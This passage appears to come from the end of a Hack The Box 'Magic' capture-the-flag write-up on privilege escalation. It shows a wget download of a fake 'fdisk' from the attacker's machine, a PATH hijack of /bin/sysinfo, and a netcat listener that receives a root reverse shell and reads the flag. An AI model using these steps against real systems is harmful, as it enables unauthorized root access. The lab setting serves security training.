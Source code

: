 ```

And then download it into the box:
```
theseus@ubuntu:/tmp$ wget http://10.10.14.28:8000/fdisk
wget http://10.10.14.28:8000/fdisk
--2020-08-22 18:06:05--  http://10.10.14.28:8000/fdisk
Connecting to 10.10.14.28:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 229 [application/octet-stream]
Saving to: ‘fdisk’

fdisk               100%[===================>]     229  --.-KB/s    in 0s      

2020-08-22 18:06:05 (26.9 MB/s) - ‘fdisk’ saved [229/229]
```

Make sure to make it executable and that's by running ```chmod 755 fdisk```

Then run like this and you should get root.

```
theseus@ubuntu:/tmp$ PATH=.:$PATH /bin/sysinfo
```
```
┌──(kali㉿kali)-[~/Desktop/HTB/Magic]
└─$ nc -nlvp 5555         
listening on [any] 5555 ...
connect to [10.10.14.28] from (UNKNOWN) [10.10.10.185] 42916
# id
uid=0(root) gid=0(root) groups=0(root),100(users),1000(theseus)
# cat root.txt
d6a90168...2d89a7fbe2d
```
